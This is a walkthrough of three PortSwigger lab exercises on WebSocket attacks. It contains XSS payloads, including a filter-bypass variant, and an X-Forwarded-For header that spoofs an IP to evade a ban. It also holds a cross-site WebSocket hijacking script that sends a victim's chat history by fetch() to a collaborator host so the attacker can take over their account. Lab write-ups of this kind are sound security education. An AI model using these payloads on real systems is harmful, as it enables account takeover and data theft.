 # WebSockets

## Manipulating WebSocket messages to exploit vulnerabilities

### Description

[This online shop](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities) has a live chat feature implemented using WebSockets. Chat messages that you submit are viewed by a support agent in real time. 

### Reproduction and proof of concept

1. Click "Live chat" and send a chat message. 
2. In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message.
3. Using your browser, send a new message containing a `<` character. In Burp Proxy, find the corresponding WebSocket message and observe that the `<` has been HTML-encoded by the client before sending.
4. Ensure that Burp Proxy is configured to intercept WebSocket messages, then send another chat message.
5. Edit the intercepted message to contain the following payload: 

```text
<img src=1 onerror='alert(1)'>
```

6. Observe that an alert is triggered in your browser. This will also happen in the support agent's browser.

### Exploitability

An attacker will need to use a WebSocket message to trigger an `alert()` popup in the support agent's browser. 

----

## Manipulating the WebSocket handshake to exploit vulnerabilities

### Description

[This online shop](https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities) has a live chat feature implemented using WebSockets. It has an aggressive but flawed XSS filter. 

### Reproduction and proof of concept

1. Click "Live chat" and send a chat message.
2. In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message.
3. Right-click on the message and select "Send to Repeater".
4. Edit and resend the message containing a basic XSS payload, such as:

```text
<img src=1 onerror='alert(1)'>
```

5. Observe that the attack has been blocked, and that your WebSocket connection has been terminated. 
6. Click "Reconnect", and observe that the connection attempt fails because your IP address has been banned.
7. Add the following header to the handshake request to spoof your IP address:

```text
X-Forwarded-For: 1.1.1.1
```

8. Click "Connect" to successfully reconnect the WebSocket. 
9. Send a WebSocket message containing an obfuscated XSS payload, such as:

```text
<img src=1 oNeRrOr=alert`1`> 
```

### Exploitability

An attacker will need to use a WebSocket message to trigger an `alert()` popup in the support agent's browser. 

----

## Cross-site WebSocket hijacking

### Description

[This online shop](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) has a live chat feature implemented using WebSockets. 

### Reproduction and proof of concept

1. Click "Live chat" and send a chat message.
2. Reload the page.
3. In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
5. Right-click on the handshake request and select "Copy URL".
6. In your browser, go to the exploit server and paste the following template into the "Body" section:

```text
<script>
  var ws = new WebSocket('wss://websocket-url');
  ws.onopen = function() {
    ws.send("READY");
  };
  ws.onmessage = function(event) {
    fetch('https://collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
  };
</script>
```

7. Replace ``websocket-url`` with the URL from the WebSocket handshake (``lab-id.web-security-academy.net/chat``). Make sure you change the protocol from ``https://`` to ``wss://``. Replace ``collaborator-url`` with a payload generated by Burp Collaborator Client.
8. Click "View exploit".
9. Poll for interactions using Burp Collaborator client. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10. Go back to the exploit server and deliver the exploit to the victim.
11. Poll for interactions using Burp Collaborator client again. Observe that you've received more HTTP interactions containing the victim's chat history. Examine the messages and notice that one of them contains the victim's username and password.
12. Use the exfiltrated credentials to log in to the victim user's account.

### Exploitability

An attacker will need to use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this to gain access to their account. 


